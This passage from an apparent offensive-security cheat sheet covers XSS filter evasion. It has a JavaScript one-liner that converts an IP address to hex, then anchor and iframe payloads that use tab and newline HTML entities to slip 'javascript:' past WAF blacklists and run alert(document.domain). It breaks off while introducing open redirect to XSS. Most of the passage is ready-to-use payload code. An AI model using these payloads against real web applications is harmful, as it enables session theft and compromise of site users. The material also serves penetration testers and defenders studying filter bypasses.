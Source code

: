 To obtain the Hexadecimal for a target IP (192.168.1.1 in the example), use the following JavaScript oneliner in a browser:

```
console.log("192.168.1.1".split('.').map(octet => '0x' + (+octet).toString(16)).join('.'));
```

***

### Using Tabs and Newlines

You can use tabs (`&Tab`;) and  newlines (`&NewLine;`) in JavaScript to bypass some WAFs or blacklists. The following is a basic payload to bypass a blacklist on the word `javascript:`

```html
<a href=j%26Tab%3bavascript%26colon%3balert()>a</a>
```

Other more complex payloads using this technique:

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

```html
<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>
```

***

## XSS - Other Attacks

{% hint style="info" %}
XSS attacks are not just about popping the alert message containing cookies.

This section describes some alternative attacks you can perform by exploiting XSS vulnerabilities
{% endhint %}

***

### Open Redirect to XSS

Whenever you are facing a web application which is vulnerable to Open Redirects, it might also be the case that the same vector can be used to gain XSS.

An example might be a website which allows for open redirects by leveraging a GET parameter, such as the following: `vulnerable.com/test.php?redirect_url={value}`
